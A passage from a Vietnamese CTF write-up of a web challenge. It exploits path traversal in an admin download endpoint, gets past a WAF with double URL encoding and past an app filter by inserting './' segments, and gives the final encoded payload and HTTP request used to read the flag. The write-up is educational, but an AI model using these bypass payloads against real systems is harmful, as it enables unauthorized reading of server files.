 4. **Giai đoạn 4: Phân tích lỗ hổng Path Traversal**
    - Bên trong khu vực quản trị, chúng ta tìm thấy trang `/admin/lunar_files` cho phép xem các tệp tin.
    - Phân tích mã nguồn JavaScript của trang này cho thấy chức năng "View" gọi đến một điểm cuối (endpoint) `/admin/download/<filename>`. Tên tệp được truyền trực tiếp vào URL, đây là một dấu hiệu rõ ràng của lỗ hổng Path Traversal.
    - Các tệp `secret.txt` trên trang này cũng gợi ý về một cuộc tấn công Path Traversal trước đó nhắm vào `/etc/passwd`.
5. **Giai đoạn 5: Bypass WAF và các bộ lọc ứng dụng**
    - Nỗ lực khai thác Path Traversal với payload `../` bị chặn bởi lỗi `400 Bad Request`, cho thấy sự tồn tại của một Web Application Firewall (WAF).
    - Sử dụng kỹ thuật **Double URL Encoding** (mã hóa `%` thành `%25`) để bypass WAF. Yêu cầu thành công vượt qua WAF nhưng bị chặn bởi một bộ lọc trong chính ứng dụng, trả về lỗi `Succession of '../../' detected, forbidden`.
    - Để bypass bộ lọc này, chúng ta chèn thêm `.` (thư mục hiện tại) vào giữa các chuỗi `../`, tạo thành payload `.././../`. Kỹ thuật này đánh lừa bộ lọc của ứng dụng trong khi vẫn giữ nguyên chức năng của Path Traversal.
    - Sử dụng payload bypass này (đã được mã hóa hai lần), chúng ta có thể đọc thành công các tệp mã nguồn của ứng dụng như `views.py` và `app.py`.
6. **Giai đoạn 6: Tìm và đọc Flag**
    - Mã nguồn của `app.py` tiết lộ vị trí chính xác của flag:
        
        ```python
        with open("./FLAG/flag.txt", "r") as f:
            FLAG = f.read()
        ```
        
    - Vị trí này là tương đối so với tệp `app.py`. Dựa trên payload thành công trước đó (`../../../app.py`), chúng ta xác định đường dẫn cuối cùng đến flag là `../../../FLAG/flag.txt`.
    - Áp dụng lại kỹ thuật bypass bộ lọc `../..` và Double URL Encoding để xây dựng payload cuối cùng và đọc thành công tệp `flag.txt`.

---

## Kịch bản giải mã (Exploit)

Không có một kịch bản duy nhất, quá trình khai thác là một chuỗi các bước thủ công sử dụng trình duyệt và công cụ Burp Suite. Dưới đây là payload cuối cùng được sử dụng trong Burp Repeater để lấy flag.

1. **Đường dẫn mục tiêu:** `../../../FLAG/flag.txt`
2. **Payload Bypass:** `.././.././../FLAG/flag.txt`
3. **Payload Double URL Encoded:**
    
    ```
    %252e%252e%252f%252e%252f%252e%252e%252f%252e%252f%252e%252e%252fFLAG%252fflag.txt
    
    ```
    
4. **Yêu cầu HTTP đầy đủ (trong Burp Repeater):**
    
    ```
    GET /admin/download/%252e%252e%252f%252e%252f%252e%252e%252f%252e%252f%252e%252e%252fFLAG%252fflag.txt HTTP/2
    Host: asteroid.sunshinectf.games
    Cookie: session=<your_valid_session_cookie>
    ... (các header khác)
    